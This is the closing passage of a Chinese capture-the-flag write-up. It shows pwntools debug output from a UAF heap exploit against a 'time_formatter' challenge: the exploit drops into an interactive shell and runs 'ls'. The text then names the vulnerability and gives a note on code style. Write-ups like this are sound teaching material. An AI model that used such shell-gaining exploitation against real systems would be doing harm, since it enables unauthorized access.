```
    '4) Print your time.\n'
    '5) Exit.\n'
    '> '
[DEBUG] Sent 0x2 bytes:
    '4\n'
[DEBUG] Sent 0x1 bytes:
    '\n' * 0x1
[*] Switching to interactive mode
[DEBUG] Received 0x18 bytes:
    'Your formatted time is: '
Your formatted time is: [DEBUG] Received 0x1 bytes:
    '\n'

$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0x37 bytes:
    '807522d1647f4f0b8b26d6c1530d72b7      time_formatter.c\n'
807522d1647f4f0b8b26d6c1530d72b7      time_formatter.c
[DEBUG] Received 0x38 bytes:
    '807522d1647f4f0b8b26d6c1530d72b7.i64  time_formatter.py\n'
807522d1647f4f0b8b26d6c1530d72b7.i64  time_formatter.py
$ 
```

执行成功，这个题目的考点是堆溢出的UAF

另外我提醒一下，在编写python脚本的时候一定要注意保持代码的优美性和可读性！